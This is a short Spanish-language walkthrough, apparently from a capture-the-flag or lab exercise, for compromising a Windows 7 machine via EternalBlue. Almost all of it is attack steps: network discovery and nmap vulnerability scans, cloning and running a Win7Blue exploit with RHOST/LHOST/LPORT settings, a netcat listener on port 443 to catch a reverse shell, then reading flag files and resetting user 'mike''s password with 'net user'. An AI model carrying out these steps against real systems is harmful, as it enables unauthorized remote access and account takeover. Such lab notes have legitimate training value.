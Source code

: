 ***Abrimos consola***
- netdiscover -r (range) (IP/24)
	- *Descubrimos que ip sale que no es usual
- nmap -p- --min-rate 5000 -sS -vvv -n -Pn (IP)
- nmap --script "vuln" (IP)
	- *Encuentras la vulnerabilidad.
	- *Buscas en internet información
	- *Buscas eternalblue exploit github
- cd /home/user/Desktop
- git clone (código del github)
	- *Das permiso con un:
- cd /home/user/Desktop/Win7Blue
- chmod +x Win7Blue
- ./Win7Blue
	- $:1
	- RHOST: (Ip remota u del objeto)
- ./Win7Blue
	- $: **4** (o 3, dependiendo de la arquitectura del sistema)
	- RHOST: (ip remota u objetivo)
	- LHOST(ip local, ya sea kali o host usado)
	- LPORT: (puerto en escucha de la consola abierta)
	- *Darle a enter*
(***CONSOLA A PARTE:***)
- nc -nlvp 443
	- nc: *netcut*
	- -n : *evitar resoluciones de dns*
	- l: *indica a netcut que tiene que trabajar en modo escucha (l para listening)*
	- v: *verbose*
	- p: *puerto* 

*CUANDO SE ABRA EL SHELL:*
	- whoami
	- dir
	- cd C: \\ Users
	- cd C:\\Users\\MIKE
	- cd C:\\Users\\MIKE\\Desktop
	- dir
	- type root.txt
	- type user.txt
	- net user mike 123456789

